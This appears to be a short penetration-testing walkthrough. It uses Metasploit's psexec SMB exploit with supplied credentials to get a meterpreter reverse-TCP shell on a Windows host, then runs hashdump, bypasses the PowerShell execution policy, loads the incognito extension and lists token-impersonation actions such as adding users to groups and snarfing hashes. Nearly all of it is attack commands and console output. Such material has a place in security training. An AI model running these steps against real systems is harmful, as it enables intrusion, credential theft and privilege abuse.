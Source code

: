 * <mark style="color:red;">Metasploit</mark> will be utilized

```
msfconsole 

use exploit/windows/smb/psexec

set rhosts tun0

set dmbdomain <domain_here>

set smbpass <smb_pass_here>

set smbuser <user_here>

show targets

set target 2

set payload windows/x64/meterpreter/reverse_tcp

run

meterpreter >
```

* Okay, we have a meterpreter shell, now what?
* Time to configure PowerShell and Incognito

```
meterpreter > hashdump

meterpreter > getuid

meterpreter > sysinfo

meterpreter > load

meterpreter > shell

C:\Windows\system32>powershell -ep bypass

PS C:\Windows\system32> ^C #press ctrl+C
Terminate channel 1? [y/n] y

meterpreter > load incognito
Loading extension incognito...Success.

meterpreter > help
```

Now that we are at this point and we have a token we can impersonate, we can do things such as:

* Adding a user to a global group
* Adding a user to a local group
* Adding a user with all tokens
* Impersonating a token
* Listing tokens
* Snarfing hashes
